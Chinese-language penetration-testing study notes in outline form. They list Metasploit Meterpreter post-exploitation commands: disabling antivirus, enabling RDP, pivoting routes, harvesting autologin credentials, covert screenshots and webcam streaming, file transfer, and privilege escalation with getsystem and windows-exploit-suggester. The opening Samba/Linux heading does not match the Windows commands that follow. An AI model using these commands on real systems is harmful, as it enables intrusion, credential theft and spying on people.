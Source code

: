 - 利用samba漏洞 Linux
  该漏洞的原理是使用非默认用户名映射的脚本配置时，通过指定一个用户名包含shell元字符，攻击者可以执行任意命令。

- 第一步：信息收集

  - 一、进程迁移

    - ps查看目标主机当前运行的程序
      pid ppid(当前进程的父进程的id） Name Arch Session User Path

    - 关于svchost.exe识别是否为木马(该程序一般注入不了）

      - 1.xp系统中进程的属主是否为系统用户

      - 2.文件目录是否为非%windows%system%

    - run post/windows/manage/migrate自动寻找合适的进程进行迁移

  - 二、系统命令收集系统信息

    - sysinfo操作系统信息

    - run post/windows/gather/checkvm检查是否运行在虚拟机

    - idletime最近运行时间

    - routes查看网络配置

    - background将当前会话放到后台

    - getuid查看用户名

    - run post/windows/manage/killav关闭目标系统杀毒软件

    - run post/windows/manage/enable_rdp启动远程端口

    - run post/windows/manage/autoroute查看本地子网情况

    - 添加路由route add 192.168.172.0 255.255.255.0 192.168.172.254;route print可以借助这个对其他网络进行攻击

    - run post/windows/gather/enum_logged_on_users列举多少用户登录了目标机

    - run post/windows/gather/enum_applications列举安装在目标机上的应用程序

    - run windows/gather/credentials/windows_autologin抓取自动登录的用户名和密码

    - 输入load espia加载插件

    - 输入screengrab或者screenshot抓取目标机的屏幕截图

    - webcam_list查看目标机有没有摄像头

    - webcam_snap打开目标机摄像头

    - webcam_stream开启直播模式

    - 输入shell进入目标机下面

  - 三、文件系统命令收集信息

    - pwd或者getwd查看目前处于哪个目录

    - getlwd查看当前处于本地的哪个目录

    - ls

    - cd

    - search -f *.txt -d c:\ 搜索C盘中所有以.txt为扩展名的文件

    - download c: \test.txt /root

    - upload /root/test.txt c:\

- 第二步：提升权限

  - 为什么？
    没有管理员权限，就无法获取hash,安装软件，修改防护墙规则和修改注册表，必须将访问权限从guest提升到user再到administrator最终到system级别

  - 分类：纵向提权和横向提权

  - 操作思路

    - 查看当前权限 shell;whoami /groups

    - 1.用本地溢出漏洞来提高权限

      - getuid查询已经获得的权限

      - getsystem提权

      - 进入shell输入systeminfo或wmic qfe get Caption,description,hotfixid,installedon查看打了哪些补丁

        - 利用工具windows-exploit-suggester

          - python windows-exploit-suggester.py --update

          - python windows-exploit-suggester.py --database 2020-05-28-mssb.xls  --system systeminfo.txt